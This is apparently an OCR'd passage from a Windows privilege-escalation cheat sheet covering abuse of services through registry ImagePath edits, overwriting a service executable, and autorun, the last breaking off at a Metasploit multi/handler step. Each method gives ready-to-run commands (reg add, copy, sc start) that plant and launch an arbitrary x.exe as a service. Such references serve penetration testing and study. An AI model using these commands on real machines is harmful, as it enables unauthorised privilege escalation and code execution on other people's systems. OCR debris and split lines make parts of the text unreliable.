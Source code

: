 Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

reg add HKLM\\SYSTEM\\CurrentControlSet\\services\\regsvc /v ImagePath
/t

REG_EXPAND_SZ /d c:\\temp\\x.exe /f

2\.

sc start regsvc

<a name="abusing-services-via-executable-file"></a>
# Abusing Services via Executable File

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

copy /y c:\\Temp\\x.exe \"c:\\Program Files\\File Permissions
Service\\filepermservice.exe\"

2\.

sc start filepermsvc

<a name="abusing-services-via-autorun"></a>
# Abusing Services via Autorun

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

In Metasploit (msf \> prompt) type: use multi/handler
